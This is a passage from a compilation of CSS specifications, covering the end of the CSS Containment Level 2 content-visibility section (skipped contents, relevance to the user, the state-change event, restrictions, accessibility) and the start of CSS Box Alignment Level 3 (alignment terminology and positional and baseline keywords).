: Changes the used value of the `contain` property so as to turn on layout containment, style containment, and paint containment for the element.

  If the element is not relevant to the user, it also skips its contents.

  Unlike `hidden`, the skipped contents *must* still be available as normal to user-agent features such as find-in-page, tab order navigation, etc., and must be focusable and selectable as normal.

When an element **skips its contents**, the user agent must change the used value of the `contain` property so as to turn on layout containment, style containment, paint containment, and size containment. Further, its **contents** (the flat tree descendants of the element, including both text and elements, or the replaced content of a replaced element) are not painted (as if they had `visibility: hidden`) and do not respond to hit-testing (as if they had `pointer-events: none`), and to a large extent do not update their styles at all unless explicitly requested by script (see [§ 4.5 Restrictions and Clarifications](#css-contain-2:cv-notes) for details).

The user agent *should* additionally avoid as much layout/rendering work as possible for skipped contents; the combination of heavy containment and making the contents invisible and untouchable enables heavy optimizations. If rendering work is done at some point, the user-agent should retain the previously computed layout state if possible, to allow the skipped contents to be displayed quickly at a later moment.

> **Note:** If an element has a value other than `content-visibility: visible`, then the following properties hold:
>
> - layout containment ensures that the user-agent is able to omit layout work in skipped subtrees, since the results of such layouts will not affect elements outside of the container element.
> - style containment ensures that counters do not have to be processed in skipped subtrees, since they do not affect counters outside of the container element.
> - paint containment ensures that ink overflow of painted contents is clipped; this, in turn, means that user-agent can reliably determine when the visible portion of the element approaches the viewport (and, for `content-visibility: auto`, start painting it).
> - size containment ensures that the user-agent is able to omit layout in skipped subtrees, since the results of such layouts will not affect the container element’s size.
>
> Note that in the `content-visibility: auto` case, layout containment, style containment, and paint containment persist even if the element is not skipped. This is done to prevent layout changes that would be incurred by containment changes as a result of an element entering and exiting the skipped state.

An element that has `content-visibility: auto` is in one of three states when it comes to its **proximity to the viewport**:

- The element is **close to the viewport**: In this state, the element is considered "on-screen": its paint containment box’s overflow clip edge intersects with the viewport, or a user-agent defined margin around the viewport.

  > **Note:** This margin is meant to allow the user agent to begin preparing for an element to be in the viewport soon. A margin of 50% is suggested as a reasonable default.

  If a filter (see [FILTER-EFFECTS-1]) with non local effects includes the element as part of its input, the user agent should also treat the element as relevant to the user when the filter’s output can affect the rendering within the viewport (or within the user-agent defined margin around the viewport), even if the element itself is still off-screen.
- The element is **far away from the viewport**: In this state, the element’s proximity to the viewport has been computed and is not close to the viewport.
- The element’s proximity to the viewport is **not determined**: In this state, the computation to determine the element’s proximity to the viewport has not been done since the last time the element was connected.

Initially, the element’s proximity to the viewport is not determined. Only connected elements with `content-visibility: auto` determine their proximity to the viewport. When the element becomes disconnected, the element’s proximity to the viewport becomes not determined.

All elements have a **currently relevant to the user** flag, initially false.

To **update currently relevant to the user** given an element *element*:

1. Let *currentlyRelevant* be true if *element* is relevant to the user, otherwise false.
2. If *element*’s currently relevant to the user flag is equal to *currentlyRelevant*, then return false.
3. Set *element*’s currently relevant to the user flag to *currentlyRelevant*.
4. return true.

To **update content relevancy for a document** given a document *doc*, and a boolean *updateNonInitial*:

1. Let *changed* be false.
2. For each *element* connected to *doc* with `auto` used value of `content-visibility`:

  1. If *updateNonInitial* is true:

    1. If update currently relevant to the user for *element* returns true.

      1. Set *changed* to true.
  2. Let *isInitialDetermination* be true if *element*’s proximity to the viewport is not determined, otherwise false.
  3. Determine proximity to the viewport for *element*.
  4. If *isInitialDetermination* is false, then continue.
  5. If update currently relevant to the user for *element* returns true.

    1. Set *changed* to true.
3. return *changed*.

> **Note:** The intent of the *changed* and *updateNonInitial* variables is for the initial viewport proximity determination, which takes effect immediately, to be reflected in the style and layout calculation this frame.
>
> Proximity determinations other than the initial one take effect at the next rendering opportunity.

An element is **relevant to the user** if **any** of the following conditions are true:

- The element is close to the viewport.
- Either the element or its contents are focused, as described in the [focus](https://html.spec.whatwg.org/multipage/interaction.html#focus) section of the HTML spec.
- Either the element or its contents are selected, where selection is described in the [selection API](https://www.w3.org/TR/selection-api/#dfn-selection).
- Either the element or its contents are placed in the top layer.
- The element has a flat tree descendant that is captured in a view transition.

#### 4.1.  Animating and Interpolating `content-visibility` {#css-contain-2:content-visibility-animation}

In general, the `content-visibility` property’s animation type is discrete. However, similar to interpolation of `visibility` (see [Web Animations §  Animation of visibility](#web-animations-1:animating-visibility)), during interpolation between `hidden` and any other `content-visibility` value, *p* values between 0 and 1 map to the non-`hidden` value.

#### 4.2.  Using `content-visibility: hidden` {#css-contain-2:using-cv-hidden}

*This section is non-normative.*

`content-visibility: hidden` lays powerful restrictions onto an element, and so should be used with caution. It also enables some very useful scenarios, often improving on existing techniques, a few of which are outlined here.

1. If a page needs to take some measurements of elements or text which aren’t themselves going to be rendered, commonly this is done by positioning the stuff-to-be-measured off-screen, using something like `position: absolute; left: -100000px;`, then calling an API like `getBoundingClientRect()`.

   Unfortunately, even though the page never intends to display this content, the user agent will still have to do full styling, layout, and rendering for the content, *just in case* it affects what’s shown on screen. The author also can’t, without further work, guarantee that the content *won’t* accidentally show up on-screen; even a very negative `left` value (like above) might not be enough, depending on the content.

   Wrapping this content in a `content-visibility: hidden` container solves all of these problems. If the wrapper has no border, background, etc, then it and its skipped contents are guaranteed to never render anything to the screen, no matter how big they get. Because the contents are skipped, the user agent can also avoid styling or laying them out until absolutely necessary, when script finally asks for it.
2. A "single-page app" often consists of several independent panes or "views", of which only one is displayed at a time.

   If the author wants to avoid paying styling/layout/rendering/etc cost for the inactive views, they can remove them from the document entirely, or at minimum apply `display:none` to them. Unfortunately, this means that when the view *does* need to be displayed, all of the styling/layout/rendering/etc work needs to be done all at once, potentially causing a noticeable delay before the view actually shows up.

   Alternately, the view can just be positioned off-screen. This means it’ll be immediately ready when it’s time to be used, but it incurs the cost of styling/layout/rendering all the time, which might be significant, especially if there are a number of inactive views. The inactive views also might still show up to accessibility tooling, confusing users of screen-readers, people using Ctrl-F to find-in-page, etc.

   `content-visibility: hidden` improves on both of these options. Because the contents are skipped, the user agent isn’t spending time on them when they’re not active. They’re also not visible to screen readers, find-in-page, and other tools. And because user agents *should* preserve previous styling/layout work if possible, if the view was displayed before, re-rendering it might be very fast.
3. If an author wants to make an element "invisible", but still show up in the page for layout purposes, one option is `visibility: hidden`. However, descendants of a `visibility: hidden` element can set `visibility: visible` and start showing up again, which isn’t always intuitive or expected.

   `content-visibility: hidden` performs a very similar purpose, but descendants can’t turn it "off" and start displaying; they stay "hidden" until the ancestor turns it off.

   Because `content-visibility: hidden` also applies many containment values to the container, it’s not always quite as usable as `visibility: hidden` would be, but when its restrictions are acceptable, it can be a more reliable, more consistent way to hide an element’s contents.

#### 4.3.  Using `content-visibility: auto` {#css-contain-2:using-cv-auto}

*This section is non-normative.*

`content-visibility: auto` is a more complex value than `hidden`; rather than being similar to `display: none`, it adaptively hides/displays an element’s contents as they become relevant to the user. It also doesn’t hide its skipped contents from the user agent, so screen readers, find-in-page, and other tools can still interact with it.

It is best to think of it as *an upgrade to containment*: if an author has a large amount of content to display that will often be off-screen (such as a long scrollable list), and that content is okay with heavy containment, they should consider using `content-visibility: auto` to apply all of the containments at once. This also strongly hints to the user agent that it’s acceptable to skip work on the contents (possibly causing a small delay when they do come on-screen) because it’s more important to have a large amount of content in the document and most of it won’t be seen anyway.

> **Note:** `content-visibility: auto` can thus be used *instead of* complicated "virtual list" techniques, at least in many cases.

Because `content-visibility: auto` only causes the element to skip its contents when none of it is relevant to the user, it’s best to use at a reasonably fine granularity.

> **Example:** For example, on Twitter, applying `content-visibility: auto` to the entire timeline wouldn’t accomplish much—​it’s always on-screen, and so it will never skip its contents.
>
> Instead, `content-visibility` should be applied to *individual tweets*, allowing each of them to be skipped as they go off-screen.

Because `content-visibility: auto` imposes size containment when the element skips its contents, if the element depends on its contents to determine its size the layout of the page (or at least, the scrollbar position) can "jump around" as elements go off-screen and start skipping.

> **Example:** This can be fixed in a number of ways:
>
> - making the element fixed-size
> - carefully arranging a layout such as Grid to size the element without depending on its contents
> - using `contain-intrinsic-size` to set an *estimate* of the element’s size
> - using `contain-intrinsic-size: auto` to automatically "snapshot" the *exact* size of the element from the last time it was rendered, before it was skipped (along with providing an estimate of the size to be used before it’s rendered and can have its size snapshotted)
>
> For example, on Twitter, the average tweet is approximately 200px tall, so `contain-intrinsic-size: auto 500px 200px` will ensure that the scrollbar thumb is in approximately the correct size and position even when preceding or following tweets are skipped, while still allowing the tweets to size according to their contents when they’re on-screen. As long as the tweets have all been viewed at least once (and haven’t changed size while they were skipped), their sizes will be *exactly* correct while they’re skipped, so the scrollbar thumb will be as well; only freshly-loaded tweets (such as those loaded at the top of the timeline while you are scrolling further down) will be forced to rely on the `200px` height estimate.

#### 4.4. Detecting `content-visibility: auto` state changes: the contentvisibilityautostatechange event {#css-contain-2:content-visibility-auto-state-change}

The **`contentvisibilityautostatechange`** event is fired on an element with `content-visibility: auto` style when the rendering state changes and the element either becomes or stops being relevant to the user.

This event is dispatched by posting a task at the time when the state change occurs.

```webidl
[Exposed=Window]
interface ContentVisibilityAutoStateChangeEvent : Event {
  constructor(DOMString type, optional ContentVisibilityAutoStateChangeEventInit eventInitDict = {});
  readonly attribute boolean skipped;
};
dictionary ContentVisibilityAutoStateChangeEventInit : EventInit {
  boolean skipped = false;
};
```

Description of ContentVisibilityAutoStateChangeEvent attributes:

****`skipped`**,  of type boolean, readonly**

: Set to true if target changed state to skip its contents, and false otherwise.

Description of ContentVisibilityAutoStateChangeEventInit members:

****`skipped`**,  of type boolean, defaulting to `false`**

: See the description of the `skipped` attribute.

Note that elements in `content-visibility: auto` subtrees remain semantically relevant even for elements that skip its contents. This means that it is inappropriate to use this signal to indefinitely skip DOM updates in the subtree that is skipped. Instead, it should be used to deprioritize updates, but ensure that the content remains semantically relevant and reasonably up-to-date. This is particularly important for assistive technologies which consume this content even when the ancestor is set to skip its contents.

#### 4.5. Restrictions and Clarifications {#css-contain-2:cv-notes}

1. From the perspective of an `IntersectionObserver`, the skipped contents of an element are never intersecting the intersection root. This is true even if both the root and the target elements are in the skipped contents.
2. From the perspective of a `ResizeObserver`, the skipped contents of an element never change their size. If these elements become non-skipped later, the resize observation will be delivered if the new size differs from the last size used to notify the resize observer.
3. If an element starts or stops skipping its contents, this change happens when update content relevancy for a document runs.

   > **Note:** Determining the viewport intersection of the element can be done with an internal version of an IntersectionObserver. However, since the observations from this are dispatched at step 14 of update the rendering, any changes to the skipped (and thus painted) state will not be visible to the user until the next frame’s processing. For this reason, updating the skipped state, including containment adjustments, is deferred to that frame as well. This ensures that script accessing, for example, the containment value of the element between these two events (internal intersection observation and skipped state update) will retrieve values consistent with current painted state and not cause any forced layouts.
4. Elements with `content-visibility: auto` that have not determined proximity to the viewport must determine their proximity to the viewport in the next update the rendering cycle. The effect of this determination must be reflected in the visual update which results from this update the rendering cycle. See [the event loop process model](https://html.spec.whatwg.org/multipage/webappapis.html#event-loop-processing-model:content-visibility-auto) for the concrete algorithm description.

   > **Note:** When an element first gains `content-visibility: auto`, it may or may not be positioned on screen. The determination of this state and thus determination of whether this element is skipped must happen in the same frame. If it does not, then there is a possibility of producing blank content in the element’s place since visibility check and skipped state update would be deferred to the next frame.
5. For the purposes of scrolling operations, such as `scrollIntoView()`, an element with `content-visibility: auto` that is skipping its contents has its size and location determined *with* size containment still active.

   > **Note:** Once it’s scrolled into view, the element will no longer skip its contents, and so might not have size containment; if this changes the element’s size, it might not align in the viewport exactly as requested.

   If an element is not available to user-agent features (for example, if it is skipped due to a `content-visibility: hidden` ancestor), then scrolling operations must not scroll to it at all, as if it did not have a layout box.
6. If an element with `content-visibility: auto` that is skipping its contents is focused (or its contents are), it becomes relevant to the user (and thus stops skipping its contents) *before* it is scrolled into view due to the focusing.

   > **Note:** Thus, unlike the previous point, the element *will* be correctly sized and aligned in the viewport. This is consistent with the order of the steps for the `focus()` method.
7. If an `iframe` skips its contents or is part of an element’s skipped contents, the user agent should entirely skip the Update The Rendering step in the iframe’s event loop, if possible.

   > **Note:** At the moment the `iframe` starts being skipped, it needs to run that step at least once to remove the painted output.
8. Skipped contents do not contribute to the result of `innerText`.
9. While an element is skipped, CSS transitions and animations on the element do not update:

  - New animations are not created even if newly-applied style would start one.
  - Existing animations do not advance in their timeline.
  - Running animations on the element do not end.

   If script queries the style of a skipped element (causing a style change event) such that knowing the state of animations or transitions is required to return correct information, animation and transitions are sampled according to the styles at the time of that style change event:

   [CSS Animations 2 § 5 Animation Events](#css-animations-2:events) and [CSS Transitions 2 § 5 Transition Events](#css-transitions-2:transition-events) defines what objects are created and what events are fired, with what data, when an animation or transition is updated,.

   When an element stops being skipped, animations and transitions are sampled and then resume advancing on their timelines as normal from that point.

   > **Note:** Overall, this is similar to the behavior of transitions/animations when a background tab is brought back to the foreground, allowing user agents to skip as much unnecessary animation work as possible without overly disrupting the animations when they become relevant again.
10. While an element is skipped, it must not start any transitions, even if a style change event affects its computed styles.

   When an element stops being skipped, it must not start any transitions as a result of the style change event associated with it no longer being skipped.

   > **Note:** This is similar to an element switching from `display:none` to a non-`none` value—​even though the styles are *technically* changing in that case (from their initial values to their "proper" values from the cascade), no transitions are started.
11. If an element has an ancestor with `content-visibility: hidden`, and it is placed in the top layer, it does not generate any boxes, as if it were `display: none`.

   > **Note:** An element skipped for other reasons, such as having a `content-visibility: auto` ancestor, will still generate boxes as normal, and might thus become un-skipped.
12. A media element that has `content-visibility: hidden` or is in the skipped contents of an element with `content-visibility: hidden` is not paused on account of being skipped. If it is playing, its playback position advances as if it were not skipped. Its audio output must be suppressed while skipped, without changing its `muted` or `volume` attributes.

   Events queued by the media element while skipped are not dispatched until it stops being skipped. Queries of the media element’s state, such as `currentTime` or `paused`, reflect the current playback state.

   If an `iframe` has `content-visibility: hidden` or is in the skipped contents of an element with `content-visibility: hidden`, this also applies to media elements in its document.

   Audio output need not be suppressed if the media is presented outside the skipped contents, for example in a picture-in-picture window.

   > **Note:** This does not apply to contents skipped due to `content-visibility: auto`, which are off-screen but may remain relevant to the user, such as a playing audio element scrolled out of view.

#### 4.6. Accessibility Implications {#css-contain-2:cv-a11y}

If a user agent exposes some form of "accessibility tree", akin to the DOM tree but specialized for accessibility use-cases such as screen-readers (thus providing the positions/etc of elements relevant to accessibility APIs, such as focusable elements), then the skipped contents of `content-visibility: hidden` elements must similarly be "skipped" (omitted) in the accessibility tree (similar to how `display: none` elements are omitted in all views of the document).

Skipped contents of `content-visibility: auto` elements must not expose the fact that a user is interacting with the page via the accessibility tree, rather than via rendering visually to the screen. In particular, if a user agent uses `content-visibility: auto` to avoid doing layout and painting work on off-screen content for displaying to the screen, it must similarly avoid doing that work on off-screen content for representing in the accessibility tree. If this is not possible (for example, if the user agent’s representation of a focusable element in the accessibility tree requires knowledge of its exact position, and thus requires a full layout to be done on it and surrounding contents), then the user agent *must* omit the skipped contents from the accessibility tree entirely.

> **Note:** This requirement is intended to protect users utilizing accessibility tooling from being identified and profiled as such via observation of timing channels; if a user agent can skip significant amounts of work when rendering visually, but has to do all of the work when rendering to an accessibility tree, then an author can tell how a user is interacting with the page by observing the timing of layout operations.

#### 4.7. Examples {#css-contain-2:cv-examples}

> **Example:** ```
> <style>
> .sv {
>   content-visibility: auto;
>   min-height: 50px;
> }
> </style>
>
> <div class=sv>
>   ... some content goes here ...
> </div>
> ```
>
> The .sv element’s `content-visibility: auto` value lets the user-agent manage whether the element is skipped. Specifically when this element is near the viewport, the user-agent will begin painting the element. When the element moves away from the viewport, it will stop being painted. In addition, the user-agent should skip as much of the rendering work as possible when the element is skipped.

> **Example:** ```
> <style>
> .sv {
>   content-visibility: hidden;
> }
> </style>
>
> <div class=sv>
>   ... some content goes here ...
> </div>
> ```
>
> In this case, the element is skipped regardless of viewport intersection. This means that the only way to have the contents painted is via script updating the value to remove `content-visibility` or change its value. As before, the user-agent should skip as much of the rendering in the contents as possible.
>
> An additional effect of skipping rendering is that the layout state of the contents can be preserved by the user-agent, so that removing the `content-visibility` property in the future will cause the contents to be rendered quicker than if they were hidden with `display: none` or similar.

> **Example:** ```
> <style>
> body {
>   margin: 0;
> }
> .sv {
>   content-visibility: hidden;
>   position: relative;
>   left: 10px;
>   top: 20px;
> }
> #child {
>   position: relative;
>   left: 1px;
>   top: 2px;
>   width: 100px;
>   height: 200px;
> }
> </style>
>
> <div id=target class=sv>
>   <div id=child></div>
>   ... some other content goes here ...
> </div>
> <script>
>   ...
>   // This will force rendering work, including layout,
>   // if the UA previously avoided it.
>   target.firstElementChild.getBoundingClientRect();
>   ...
> </script>
> ```
>
> Similarly to the last example, the element is skipped. The user-agent should avoid as much rendering work as possible. However, in this example, at some point script accesses a layout value in the element’s contents. In this situation, the user-agent cannot avoid rendering work and has to process any previously skipped rendering work in order to return a correct value to the caller. In this example, the result of `getBoundingClientRect()` is a rect positioned at (11, 22) with a size 100x200.
>
> Note that repeated calls to the same layout value should not cause any additional rendering work, since the user-agent should retain the last updated rendering state.
>
> Also note that this situation in which rendering work is required is not unique. There may be other situations in which the user-agent cannot avoid rendering work.

---

## CSS Box Alignment Module Level 3 {#css-align-3}

- **Shortname:** `css-align-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-align/](https://drafts.csswg.org/css-align/)
- **Published TR:** [https://www.w3.org/TR/css-align-3/](https://www.w3.org/TR/css-align-3/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-10-21

### 1.  Introduction {#css-align-3:intro}

CSS Levels 1 and 2 allowed for the alignment of text via `text-align` and the alignment of blocks by balancing `auto` margins. However, except in table cells, vertical alignment was not possible. As CSS adds further capabilities, the ability to align boxes in various dimensions becomes more critical. This module attempts to create a cohesive and common box alignment model to share among all of CSS.

> **Note:** The alignment of text and inline-level content is defined in [CSS-TEXT-3] and [CSS-INLINE-3].

> **Note:** This specification is not intended to change any of the behavior defined in [CSS2.1](#css2) when the properties defined here are set to their initial values. If implementors or anyone else notices a discrepancy, please report this to the CSSWG as an error.

*This section (above) is not normative.*

#### 1.1.  Module Interactions {#css-align-3:placement}

This module adds some new alignment capabilities to the block layout model described in [CSS2] [chapters 9](#css2) and [10](#css2), [redefines how overconstrained block-level box margins are resolved](#css-align-3:justify-block), and defines the interaction of these new alignment properties with the alignment of table cell content using `vertical-align`, as defined in [CSS2] [chapter 17](#css2:height-layout).

The interaction of these properties with Grid Layout [CSS-GRID-1] and Flexible Box Layout [CSS-FLEXBOX-1] is defined in their respective modules. The property definitions here supersede those in [CSS-FLEXBOX-1] (which have a smaller, earlier subset of permissible values).

No properties in this module apply to the `::first-line` or `::first-letter` pseudo-elements.

#### 1.2.  Value Definitions {#css-align-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.3.  Partial Implementations {#css-align-3:partial}

Since it is expected that support for the features in this module will be deployed in stages corresponding to the various layout models affected, it is hereby clarified that the [rules for partial implementations](https://www.w3.org/TR/CSS/#partial) that require treating as invalid any unsupported feature apply to any alignment keyword which is not supported across all layout modules to which it applies for layout models in which the implementation supports the property in general.

For example, if an implementation supports `align-self` in [CSS-GRID-1] and [CSS-FLEXBOX-1], then it must treat `start` as invalid unless it is supported in both grid and flex containers. However if that same implementation does not support `align-self` for block-level elements at all, then a lack of implementation of `align-self: start` does not trigger this requirement to treat it as invalid.

### 2.  Overview of Alignment Properties {#css-align-3:overview}

The **box alignment properties** in CSS are a set of 6 properties that control alignment of boxes within other boxes. They can be described along two axises:

- which dimension they apply to (main/inline vs. cross/block), and
- whether they control the position of the box within its parent, or the box’s content within itself.

> **Note:** This specification uses the terms “justify” and “align” to distinguish between alignment in the main/inline and cross/block dimensions, respectively. The choice is somewhat arbitrary, but having the two terms allows for a consistent naming scheme that works across all of CSS’s layout models (including [CSS Flexbox 1 § 2 Flex Layout Box Model and Terminology](#css-flexbox-2:box-model))

The following table summarizes the box alignment properties and the display types they can apply to.

| Common | Axis | Aligns | Applies to |
| --- | --- | --- | --- |
| `justify-content` | main/inline |  content within element (effectively adjusts padding) | block containers, flex containers, and grid containers |
| `align-content` | cross/block |  |  |
| `justify-self` | inline |  element within parent (effectively adjusts margins) | block-level boxes, absolutely-positioned boxes, and grid items |
| `align-self` | cross/block | absolutely-positioned boxes, flex items, and grid items |  |
| `justify-items` | inline |  items inside box (controls child items’ `justify-self: auto`) | block containers and grid containers |
| `align-items` | cross/block | flex containers and grid containers |  |

> **Note:** The `*-items` properties don’t affect the element itself. When set on a container, they specify the interpretation of any `*-self: auto` used on children of the container element.

### 3.  Alignment Terminology {#css-align-3:terms}

Since this module defines alignment properties for all layout modes in CSS, some abstract terminology is introduced:

****alignment subject****

: The alignment subject is the thing or things being aligned by the property. For `justify-self` and `align-self`, the alignment subject is the margin box of the box the property is set on, and assumes the writing mode of that box. For `justify-content` and `align-content`, the alignment subject is defined by the layout mode and refers to some aspect of its contents; it also assumes the writing mode of the box the property is set on.

****alignment container****

: The alignment container is the rectangle that the alignment subject is aligned within. This is defined by the layout mode, but is usually the alignment subject’s containing block, and assumes the writing mode of the box establishing the containing block.

****fallback alignment****

: Some alignments can only be fulfilled in certain situations or are limited in how much space they can consume; for example, `space-between` can only operate when there is more than one alignment subject, and baseline alignment, once fulfilled, might not be enough to absorb all the excess space. In these cases a fallback alignment takes effect (as defined below) to fully consume the excess space.

### 4.  Alignment Keywords {#css-align-3:alignment-values}

All of the alignment properties use a common set of keyword values, which are defined in this section. Keywords fall into three categories:

**[positional alignment](#css-align-3:positional-values)**

: These keywords define alignment as an absolute position within the alignment container.

**[baseline alignment](#css-align-3:baseline-values)**

: These keywords define alignment as a relationship among the baselines of multiple alignment subjects within an alignment context.

**[distributed alignment](#css-align-3:distribution-values)**

: These keywords define alignment as a distribution of space among alignment subjects.

#### 4.1.  Positional Alignment: the `center`, `start`, `end`, `self-start`, `self-end`, `flow-start`, `flow-end`, `flex-start`, `flex-end`, `left`, and `right` keywords {#css-align-3:positional-values}

The **positional alignment** keywords specify a position for an alignment subject with respect to its alignment container.

Values have the following meanings:

****center** ([self](#css-align-3:self-alignment), [content](#css-align-3:content-distribution))**

: Centers the alignment subject within its alignment container.

****start** ([self](#css-align-3:self-alignment), [content](#css-align-3:content-distribution))**

: Aligns the alignment subject to be flush with the alignment container’s start edge in the appropriate axis.

****end** ([self](#css-align-3:self-alignment), [content](#css-align-3:content-distribution))**

: Aligns the alignment subject to be flush with the alignment container’s end edge in the appropriate axis.

****self-start** ([self](#css-align-3:self-alignment))**

: Aligns the alignment subject to be flush with the edge of the alignment container corresponding to the alignment subject’s start side in the appropriate axis.

****self-end** ([self](#css-align-3:self-alignment))**

: Aligns the alignment subject to be flush with the edge of the alignment container corresponding to the alignment subject’s end side in the appropriate axis.

****flow-start** ([self](#css-align-3:self-alignment), [content](#css-align-3:content-distribution))**

: Aligns the alignment subject to be flush with the edge of the alignment container corresponding to the start of placement.

  In a flex formatting context, this corresponds to the flex container’s main-start or cross-start side, as appropriate. [CSS-FLEXBOX-1]

  In grid lanes layout, this corresponds to the side of the grid lanes container from which item placement proceeds in the axis being aligned. See [CSS-GRID-3] for more details.

  When used outside of a flex formatting context or grid lanes layout, this value behaves as `start`, unless otherwise specified by the layout model.

****flow-end** ([self](#css-align-3:self-alignment), [content](#css-align-3:content-distribution))**

: Aligns the alignment subject to be flush with the edge of the alignment container corresponding to the end of placement.

  In a flex formatting context, this corresponds to the flex container’s main-end or cross-end side, as appropriate. [CSS-FLEXBOX-1]

  In grid lanes layout, this corresponds to the side of the grid lanes container opposite the side from which item placement proceeds in the axis being aligned. See [CSS-GRID-3] for more details.

  When used outside of a flex formatting context or grid lanes layout, this value behaves as `end`, unless otherwise specified by the layout model.

****flex-start** ([self](#css-align-3:self-alignment), [content](#css-align-3:content-distribution))**

: A legacy value alias for `flow-start`.

****flex-end** ([self](#css-align-3:self-alignment), [content](#css-align-3:content-distribution))**

: A legacy value alias for `flow-end`.

****left** (only `justify-*`)**

: Aligns the alignment subject to be flush with the alignment container’s [line-left](#css-writing-modes-4:line-left) or physical left edge, whichever is in the appropriate axis.

  If the property’s axis is not parallel with either left↔right axis, this value behaves as `start`. Currently, the only case where the property’s axis is not parallel with either left↔right axis is in a column flexbox.

****right** (only `justify-*`)**

: Aligns the alignment subject to be flush with the alignment container’s [line-right](#css-writing-modes-4:line-right) or physical right edge, whichever is in the appropriate axis.

  If the property’s axis is not parallel with either left↔right axis, this value behaves as `start`. Currently, the only case where the property’s axis is not parallel with either left↔right axis is in a column flexbox.

Two grammar terms are used to denote certain subsets of these values:

**`<self-position>`**

: This set is used by `justify-self` and `align-self` to align the box within its alignment container, and also by `justify-items` and `align-items` (to specify default values for `justify-self` and `align-self`).

  ```css
  <self-position> = center | start | end | self-start | self-end |
          flow-start | flow-end | flex-start | flex-end
  ```

**`<content-position>`**

: This set is used by `justify-content` and `align-content` to align the box’s contents within itself.

  ```css
  <content-position> = center | start | end |
          flow-start | flow-end | flex-start | flex-end
  ```

> **Note:** `left` and `right` are excluded from `<self-position>` and `<content-position>`, despite being valid positional alignment values for `justify-content`/`justify-self`/`justify-items`, because they are not allowed in the `align-*` properties. They are instead explicitly included in the `justify-*` properties’ grammars.

> **Example:** The `start` and `end` keywords are flow-relative: they use the writing mode to determine which side to align to.
>
>  
>
> `start` vs `end` in the inline axis ([typically†](#css-align-3:flexbox-exception) `justify-*`)
>
> The `left` and `right` keywords are absolute (not flow-relative).
>
>  
>
> `left` vs `right`
>
> The `start` and `end` keywords have meaning in both the inline and block axes: `start` always orients to the start of the text (top left for left-to-right/top-to-bottom languages like English) while `end` always orients to the end of the text.
>
>  
>
> `start` vs `end` in the block axis ([typically†](#css-align-3:flexbox-exception) `align-*`)
>
> The `start` and `end` keywords use the writing mode of the alignment container, to help keep things consistent. But if alignment using the alignment subject’s writing mode is needed, the `self-start` and `self-end` keywords can be used.
>
>  
>
> `start` vs `self-start` on the individual items

> **Example:** The behavior of the alignment keywords is analogous in vertical writing modes: `start` and `end` are relative to the start/end of the text in the relevant axis. The `left` and `right` keywords are interpreted as line-left and line-right, relative to the “left” and “right” sides of LTR/RTL text.
>
>  
>
> `start` vs `end` in the inline axis ([typically†](#css-align-3:flexbox-exception) `justify-*`)
>
>  
>
> `left` vs `right`
>
>  
>
> `start` vs `end` in the block axis ([typically†](#css-align-3:flexbox-exception) `align-*`)
>
>  
>
> `start` vs `self-start` on the individual items

> **Note:** For most layout models (block, table, grid, etc), the `justify-*` properties always align things in the inline axis, while the `align-*` properties always align things in the block axis.
>
> Flexbox, on the other hand, has `justify-*` align things in the main axis and `align-*` align things in the cross axis. This depends on the value of `flex-direction`: when `flex-direction` is `row` or `row-reverse`, it matches the other layout modes (inline axis with `justify-*`, block axis with `align-*`); when `flex-direction` is `column` or `column-reverse`, it has the opposite correspondence.

> **Issue:** Make it easier to understand the dual-axis nature of "start" and "end" wrt orthogonal flows.

#### 4.2.  Baseline Alignment: the `baseline` keyword and `first`/`last` modifiers {#css-align-3:baseline-values}

See [CSS Writing Modes 3 § 4.1 Introduction to Baselines](#css-writing-modes-4:intro-baselines).

**Baseline alignment** is a form of positional alignment that aligns multiple alignment subjects within a shared alignment context (such as cells within a row) by matching up their alignment baselines. If the position of the alignment subjects within a baseline-sharing group is not fully constrained by baseline alignment (i.e., they could be shifted within their respective alignment containers while maintaining baseline-alignment), they are fallback-aligned insofar as possible while preserving their baseline alignment.

The baseline alignment keywords are represented with the `<baseline-position>` grammar term:

```css
<baseline-position> = [ first | last ]? && baseline
```

The `first` and `last` values give a box a **baseline alignment preference**: either “first” or “last”, respectively, defaulting to “first”.

Values have the following meanings:

****baseline****

: Computes to `first baseline`, defined below.

****first baseline****

: Specifies participation in **first-baseline alignment**: aligns the alignment baseline of the box’s first baseline set with the corresponding baseline of its baseline-sharing group. See [§ 9.3 Aligning Boxes by Baseline](#css-align-3:align-by-baseline) for more details.

  The fallback alignment for `first baseline` is `safe self-start` (for self-alignment) or `safe start` (for content-distribution).

****last baseline****

